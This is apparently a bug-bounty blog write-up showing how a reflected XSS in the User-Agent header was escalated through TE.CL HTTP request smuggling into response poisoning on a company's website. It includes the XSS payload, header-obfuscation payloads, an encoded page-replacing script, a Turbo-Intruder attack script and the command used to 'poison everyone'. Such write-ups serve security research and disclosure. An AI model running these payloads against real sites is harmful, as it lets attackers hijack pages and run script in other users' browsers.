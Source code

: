 ```yaml
---
title: Exploiting HTTP Request Smuggling (TE.CL)- XSS to website takeover
updated: 2021-03-10 22:46
---
```

Even though HTTP Request Smuggling is documented back on 2005, it is still one of the least known Webapp vulnerability out there.

After a little break I decided to hunt a private company (which is not eligible for Bug Bounty, but still accepting reports) and what I found might be worth sharing.

## Reflected XSS in User-Agent Header

I have developed my own smart XSS fuzzing (which might be soon published) which tests both URL Endpoints and HTTP Headers. Luckily it found that User-Agent is being reflected. We can confirm it by manually send a request with Burp Suite:

![reflected_xss_burp](https://cdn-images-1.medium.com/max/800/1*M_stlWovazY6bcg702cbPQ.jpeg)

The word Exploitation is being reflected, let's put a simple XSS and break the Javascript String. The payload will look like this:

```
"><script>alert(`XSS`)</script>
```

We got XSS, nothing new and interesting by far. Mostly Private Programs don't accept this bug as in real cases, you can't send special-crafted HTTP request to an end user. Let's try to escalate this innocent-looking XSS into something more spicy.

## Recon and Detecting HTTP Request Smuggling

Burp Suite has a built-in Extension for this type of vulnerability, and it does test any kind of Smuggling while I do enumerating.


![burp_suite_extension](https://cdn-images-1.medium.com/max/800/1*WMItqq0i4OSHlL3q4ce7VQ.png)

Now let's perform automatic scans, go to **Repeater**, right click and click on **Launch Smuggle probe**.

![burp_suite_extension_right_click](https://cdn-images-1.medium.com/max/800/1*HuthN9dwqT5dvK_Ydu6s4w.png)

If HTTP Smuggling vulnerability  is detected, it will be issued on Target tab (it might take some minutes to perform the scans in the background)

![vuln_found_by_burp_extension](https://cdn-images-1.medium.com/max/800/1*-uByNsDX3Mr5056RZkc1uw.png)

## TE.CL Exploit Development

Before we craft our special-request in Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked, this way our Content-Length value doesn't automatically change by Burp Suite, this is a crucial part on this kind of exploitation.

Below is our crafted payload. Keep in mind that the 2 headers (Transfer-Encoding, and Connection) must be always included. The first chunk (A x 1000) is going to be requested to the front-end server, it contains nothing malicious because it is just a regular request as an ordinary user would do. The reason why Content-length is 1007 (in the photo below is 1005, oops…), is because there are 1000*A + \r\n + 3e8 + b0. Which means 1000 + 2 + 3 + 2 = 1007 bytes. Note: b0 is still considered a part of the first request even though it defines the length of the smuggled request.

The second chunk of data is our smuggled request, if successful, we should get Error 404 requests as there is no directory **/404hopefully** on the website. 
After the second chunk, is mandatory to add x=1 or bunch of random data and two newlines after 0.

```
0\r\n\r\n
\r\n\r\n
```
![smuggling_request_development](https://cdn-images-1.medium.com/max/800/1*vO8vcAcB4AfDjCSvBFJY-g.jpeg)

Send this request to Turbo-Intruder and if we get any 404 Request, it means that our Special-Crafted request is sent to Back-End server.

![turbo_intruder_vuln_identification](https://cdn-images-1.medium.com/max/800/1*WtmzjvOS7UP-Ban2bQo5lA.png)

## Suffix Space Bypass - Obfuscating TE Header

We have to obfuscate the TE header, because one of the servers can be induced not to process it. This technique works on quite a few systems, but we can exploit many more by making the Transfer-Encoding header slightly harder to spot, so that one system doesn't see it. Here are some payloads by James Kettle:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

 Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```

I used the whitespace as a bypass method.

![suffix_tab_bypass](https://cdn-images-1.medium.com/max/800/1*FdNCO994ZtOwLEuKfRn9iA.png)

## Poisoning response and website takeover

This is our final crafted request, the difference is that the XSS payload is added to the smuggled request in User-Agent Header (which we discovered before). Save it as request.txt to launch the attack with Turbo-Intruder:

![final_crafted_request](https://cdn-images-1.medium.com/max/800/1*rfYL92DvrQYO4d8ivafGRA.png)

Inside **script.js** is a simple code which generates a HTML website as a POC (kinda servers as a DOM XSS):

```
document.documentElement.innerHTML=String.fromCharCode(60, 104, 116, 109, 108, 62, 10, 60, 104, 49, 62, 85, 115, 101, 114, 39, 115, 32, 114, 101, 115, 112, 111, 110, 115, 101, 32, 105, 115, 32, 112, 111, 105, 115, 111, 110, 101, 100, 32, 119, 105, 116, 104, 32, 72, 84, 84, 80, 32, 82, 101, 113, 117, 101, 115, 116, 32, 83, 109, 117, 103, 103, 108, 105, 110, 103, 32, 97, 110, 100, 32, 88, 83, 83, 60, 47, 104, 49, 62, 10, 60, 47, 104, 116, 109, 108, 62, 10)
```

Here is our **setup.txt** which contains the configuration part of Turbo-Intruder:

```
#credits to https://hipotermia.pw/bb/http-desync-account-takeover
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=20,
                           requestsPerConnection=20,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )
    engine.start()
    
    attack = target.req
    engine.queue(attack)
    
    victim = target.req
    for i in range(100000000):
        engine.queue(victim)
        time.sleep(0.05)
        
def handleResponse(req, interesting):
    table.add(req)
```

There is nothing much left to do, so fire up [Turbo-Intruder](https://github.com/PortSwigger/turbo-intruder/releases/tag/1.2.0) and poison everyone:

```
java -jar turbo-intruder-all.jar setup.txt request.txt https://www.target.com/ /
```

![turbo_intruder_poisoning_users](https://cdn-images-1.medium.com/max/800/1*4ZBYWE8VVbdPg090oNTN-g.jpeg)

As long as the Turbo-Intruder is being run, the XSS payload will be persistent on the website. Below is Javascript being executed:

![persistente_xss](https://cdn-images-1.medium.com/max/800/1*sNy8N8Q_DzAWnE82n8BOCw.jpeg)

### References:

https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn  
https://portswigger.net/web-security/request-smuggling  
https://www.youtube.com/watch?v=JW2fM_GmidU&t=1s  
